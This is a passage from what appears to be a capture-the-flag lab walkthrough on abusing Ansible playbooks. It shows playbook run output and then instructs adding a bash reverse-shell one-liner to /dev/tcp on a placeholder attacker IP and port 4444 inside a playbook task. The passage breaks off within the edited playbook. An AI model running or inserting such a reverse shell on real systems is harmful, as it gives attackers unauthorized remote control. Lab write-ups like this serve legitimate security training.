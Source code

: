   PLAY [Test] ********************************************************************
  
  TASK [Gathering Facts] *********************************************************
  ok: [127.0.0.1]
  
  TASK [get the username running the deploy] *************************************
  ok: [127.0.0.1]
  
  TASK [debug] *******************************************************************
  ok: [127.0.0.1] => {
      "username_on_the_host": {
          "changed": false, 
          "cmd": [
              "whoami"
          ], 
          "delta": "0:00:00.003990", 
          "end": "2025-06-03 11:38:29.471434", 
          "failed": false, 
          "rc": 0, 
          "start": "2025-06-03 11:38:29.467444", 
          "stderr": "", 
          "stderr_lines": [], 
          "stdout": "bismuth", 
          "stdout_lines": [
              "bismuth"
          ]
      }
  }
  
  TASK [Test] ********************************************************************
  changed: [127.0.0.1]
  
  PLAY RECAP *********************************************************************
  127.0.0.1                  : ok=4    changed=1    unreachable=0    failed=0  
  ```
  
- Now edit the `playbook.yaml` by adding bash one-liner with reverse shell `bash -c 'exec bash -i >& /dev/tcp/[YOUR-THM-IP]/4444 0>&1'`.

  ```
  ---
  - name: Test 
    hosts: all                                  # Define all the hosts
    remote_user: bismuth                                  
    # Defining the Ansible task
    tasks:             
      - name: get the username running the deploy
        become: false
        command: bash -c 'exec bash -i >& /dev/tcp/[YOUR-THM-IP]/4444 0>&1'
        register: username_on_the_host
        changed_when: false
  